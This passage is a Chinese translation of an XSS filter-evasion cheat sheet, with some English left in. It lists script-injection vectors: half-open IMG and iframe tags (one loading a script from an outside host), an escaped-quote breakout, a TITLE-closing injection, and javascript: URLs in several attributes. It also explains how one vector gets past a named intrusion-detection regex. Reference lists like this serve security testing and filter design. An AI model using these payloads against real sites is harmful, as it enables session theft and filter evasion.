 ### 半开的 HTML/JavaScript xss 向量

不同于 Firefox ，ie 渲染引擎不会加入额外的数据到你的页面。但是它允许 javascript 指定在图片标签中这是有用的作为一个 xss 向量，因为它不需要一个结束的尖括号。你可以插入这个 xss 向量在任何 html 标签后面。甚至没有用">"关闭标签。 A note: this does mess up the HTML, depending on what HTML is beneath it. It gets around the following NIDS regex: /((\%3D)|(=))^(\n)*((\%3C)|<)^(\n)+((\%3E)|>)/ because it doesn't require the end ">". 这也是有效的去对付真实的 xss 过滤器，我曾经碰见过试用半开的<IFRAME 标签替代 <IMG 标签，

```
<IMG SRC="javascript:alert('XSS')" 
```

### 双开尖括号

使用一个开始尖括号(<)在向量结尾代替一个关闭尖括号（>）会有不同的影响在 Netscape Gecko 的渲染中。 Without it, Firefox will work but Netscape won't。

```
<iframe src=http://ha.ckers.org/scriptlet.html < 
```

### 转义 javascript 中的转义

当一个应用程序是输出用户自定义的信息到 javascript 代码中，例如： `<SCRIPT>var a="$ENV{QUERY_STRING}";</SCRIPT>`。如果你想插入你自己的 javascript 代码进入它，但是服务器转义了其中的某些引号，这时你需要通过转义被转义的字符来绕过它。从而使最终的输入代码类似于`<SCRIPT>var a="\";alert('XSS');//";</SCRIPT>` 。最终\转义了双引号前被服务器添加的\，而双引号则不会被转义，从而触发 xss 向量。xss 定位器使用这个方法。

```
\";alert('XSS');// 
```

### 闭合 title 标签

这是一个简单的 xss 向量，可以引入一个恶意的 xss 攻击。 *译者注：titile 标签内部不支持 html 代码，所有内容会被自动转义为普通字符。*

```
</TITLE><SCRIPT>alert("XSS");</SCRIPT> 
```

### INPUT image

```
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');"> 
```

### BODY image

```
<BODY BACKGROUND="javascript:alert('XSS')"> 
```

### IMG DYNSRC(视频剪辑)

```
<IMG DYNSRC="javascript:alert('XSS')"> 
```

### IMG lowsrc（低分辨率图片）

```
<IMG LOWSRC="javascript:alert('XSS')"> 
```
